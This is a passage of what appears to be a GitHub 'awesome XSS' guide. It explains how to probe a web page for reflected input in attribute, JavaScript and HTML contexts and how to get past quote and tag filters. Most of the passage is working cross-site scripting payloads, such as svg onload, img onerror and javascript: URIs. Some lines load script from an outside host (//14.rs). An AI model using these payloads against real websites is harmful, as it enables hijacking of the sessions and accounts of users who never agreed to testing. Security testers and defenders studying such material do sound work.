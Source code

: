 ### Awesome Exploits
A good compilation of advanced XSS exploits can be found [here](http://www.xss-payloads.com/payloads-list.html?a#category=all)

### Awesome Probing
If nothing of this works, take a look at **Awesome Bypassing** section

First of all, enter a non-malicious string like **d3v** and look at the source code to get an idea about number and contexts of refelections.
<br>Now for attribute context, check if double quotes (") are being filtered by entering **x"d3v**. If it gets altered to **x&amp;quot;d3v**, chances are that proper security measures are in place. If this happens, try doing the same for single quotes (') by entering **x'd3v**, if it gets altered to **x&amp;apos;**, you are doomed. The only thing you can try is encoding.<br>
If the quotes are not being filtered, you can simply try payloads from **Awesome Context Breaking** section.
<br>For javascript context, check which quotes are being used for example if they are doing
```
variable = 'value' or variable = "value"
```
Now lets say single quotes (') are in use, in that case enter **x'd3v**. If it gets altered to **x\\'d3v**, try escaping the backslash (\) by adding a backslash to your probe i.e. **x\\'d3v**. If it works use the following payload:
```
\'-alert()-\'
```
But if it gets altered to **x\\'d3v**, the only thing you can try is closing the script tag itself by using
```
</script><svg onload=alert()>
```
For simple HTML context, the probe is **x&gt;d3v**. If it gets altered to **x&amp;gt;d3v**, proper sanitization is in place. If it gets reflected as it as, you can enter a dummy tag to check for potenial filters. The dummy tag I like to use is **x&lt;xxx&gt;**. If it gets stripped or altered in any way, it means the filter is looking for a pair of **<** and **>**. It can simply bypassed using
```
<svg onload=alert()//
```
or this (it will not work in all cases)
```
<svg onload=alert()
```
If the your dummy tags lands in the source code as it is, go for any of these payloads
```
<svg onload=alert()>
<embed src=//14.rs>
<details open ontoggle=alert()>
```

### Awesome Bypassing

**Note:** None of these payloads use single (') or double quotes (").

- Without event handlers
```
<object data=javascript:confirm()>
<script src=//14.rs>
<script>confirm()</script>
```
- Without space
```
<svg/onload=confirm()>
```
- Without slash (/)
```
<svg onload=confirm()>
<img src=x onerror=confirm()>
```